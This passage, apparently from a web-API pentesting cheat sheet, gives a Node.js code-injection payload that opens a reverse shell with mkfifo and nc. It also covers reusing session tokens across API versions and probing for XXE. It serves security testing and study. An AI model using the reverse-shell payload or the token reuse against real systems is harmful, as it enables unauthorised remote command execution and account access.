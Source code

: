 Then send request to the website with the parameter which executes reverse shell using child_process.

```sh
/api/?key=require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 4444 >/tmp/f')
```

We should see that we get a shell in local terminal. 

<br />

## Same Session Across Multiple Versions and Instances

For example, assumed the website has two endpoints such as "/api/v1/user/login", "/api/v2/user/login".  
"v1" uses "X-Token" and "v2" uses "X-Session".  
After login to "v1", you may be able to get access "v2" using the session key/value of "v1".

```sh
X-Token: fc38ab5f5ae41072778d852023f9ee26
X-Session: fc38ab5f5ae41072778d852023f9ee26
```

<br />

## XXE

```bash
GET /api/product/1?xml HTTP/1.1
```

If the website displays the response in XML, we might be able to XXE.
